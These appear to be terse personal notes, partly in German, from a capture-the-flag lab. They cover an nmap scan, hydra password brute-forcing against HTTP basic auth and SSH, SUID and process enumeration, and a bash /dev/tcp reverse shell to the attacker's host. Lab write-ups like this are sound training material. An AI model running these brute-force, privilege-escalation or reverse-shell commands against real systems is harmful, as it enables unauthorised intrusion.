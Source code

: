 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[bilder/Pasted image 20250117175643.png]]
![[bilder/Pasted image 20250117175813.png]]
![[bilder/Pasted image 20250117175921.png]]
![[bilder/Pasted image 20250117180005.png]]
![[bilder/Pasted image 20250117180023.png]]
![[bilder/Pasted image 20250117180037.png]]
![[bilder/Pasted image 20250117180113.png]]
![[bilder/Pasted image 20250117180209.png]]
![[bilder/Pasted image 20250117180747.png]]
![[bilder/Pasted image 20250117180729.png]]
![[bilder/Pasted image 20250117181656.png]]
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[bilder/Pasted image 20250117182116.png]]
![[bilder/Pasted image 20250117182208.png]]
`FLAG{use_secure_credentials}`
![[bilder/Pasted image 20250117183032.png]]
![[bilder/Pasted image 20250117183014.png]]
![[bilder/Pasted image 20250117183153.png]]
![[bilder/Pasted image 20250117183736.png]]
`ls -R *`
![[bilder/Pasted image 20250117190434.png]]
![[bilder/Pasted image 20250117191517.png]]
![[bilder/Pasted image 20250117191545.png]]
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![[bilder/Pasted image 20250117195129.png]]
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![[bilder/Pasted image 20250117202527.png]]
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![[bilder/Pasted image 20250117204436.png]]
![[bilder/Pasted image 20250117211103.png]]
![[bilder/Pasted image 20250117211250.png]]
![[bilder/Pasted image 20250117211407.png]]
![[bilder/Pasted image 20250117211426.png]]
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![[bilder/Pasted image 20250117234351.png]]
![[bilder/Pasted image 20250117234356.png]]
![[bilder/Pasted image 20250117234535.png]]

suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```


